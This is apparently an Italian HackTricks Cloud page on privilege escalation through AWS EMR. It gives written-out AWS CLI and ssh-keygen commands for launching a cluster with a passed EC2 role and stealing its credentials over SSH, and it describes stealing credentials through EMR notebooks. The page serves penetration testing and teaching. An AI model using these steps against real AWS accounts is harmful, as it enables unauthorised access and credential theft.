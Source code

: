# AWS - EMR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

Ulteriori **info su EMR** in:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Un attaccante con questi permessi può **eseguire un nuovo cluster EMR allegando ruoli EC2** e cercare di rubare le sue credenziali.\
Nota che per fare questo avresti bisogno di **conoscere qualche chiave privata ssh importata nell'account** o di importarne una, e di essere in grado di **aprire la porta 22 nel nodo master** (potresti essere in grado di farlo con gli attributi `EmrManagedMasterSecurityGroup` e/o `ServiceAccessSecurityGroup` all'interno di `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Nota come un **ruolo EMR** è specificato in `--service-role` e un **ruolo ec2** è specificato in `--ec2-attributes` all'interno di `InstanceProfile`. Tuttavia, questa tecnica consente solo di rubare le credenziali del ruolo EC2 (poiché ci si connetterà tramite ssh) ma non il ruolo IAM EMR.

**Impatto Potenziale:** Privesc al ruolo di servizio EC2 specificato.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Con questi permessi un attaccante può andare alla **console AWS**, creare un Notebook e accedervi per rubare il ruolo IAM.

{% hint style="danger" %}
Anche se attacchi un ruolo IAM all'istanza del notebook nei miei test ho notato che ero in grado di rubare credenziali gestite da AWS e non credenziali relative al ruolo IAM.
{% endhint %}

**Impatto Potenziale:** Privesc al ruolo gestito da AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Solo con questo permesso un attaccante sarà in grado di accedere al **Jupyter Notebook e rubare il ruolo IAM** associato ad esso.\
L'URL del notebook è `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Anche se attacchi un ruolo IAM all'istanza del notebook nei miei test ho notato che ero in grado di rubare credenziali gestite da AWS e non credenziali relative al ruolo IAM.
{% endhint %}

**Impatto Potenziale:** Privesc al ruolo gestito da AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
